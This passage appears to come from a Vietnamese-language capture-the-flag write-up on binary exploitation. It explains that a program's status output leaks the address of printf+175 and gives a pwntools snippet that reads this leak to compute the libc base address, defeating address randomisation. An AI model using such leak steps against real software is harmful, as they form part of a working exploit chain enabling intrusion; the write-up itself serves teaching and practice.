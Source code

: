 ![](images/gdb-check-address.png)

Ta thấy 8 byte đầu sẽ là rác nhưng 8 byte kế tiếp là địa chỉ của `printf+175`. Ta hoàn toàn có thể lấy địa chỉ đó để tính địa chỉ base cho libc vì khi chạy và debug nhiều lần thì địa chỉ chỗ đó vẫn là `printf+175` không thay đổi:

```python
time.sleep(0.5)
sla(p, b'> ', b'4')
p.recvuntil(b'Status: ')
p.recv(8)
libc_leak = u64(p.recv(8))
libc.address = libc_leak - 0x6081f
info("Libc leak: " + hex(libc_leak))
info("Libc base: " + hex(libc.address))
```
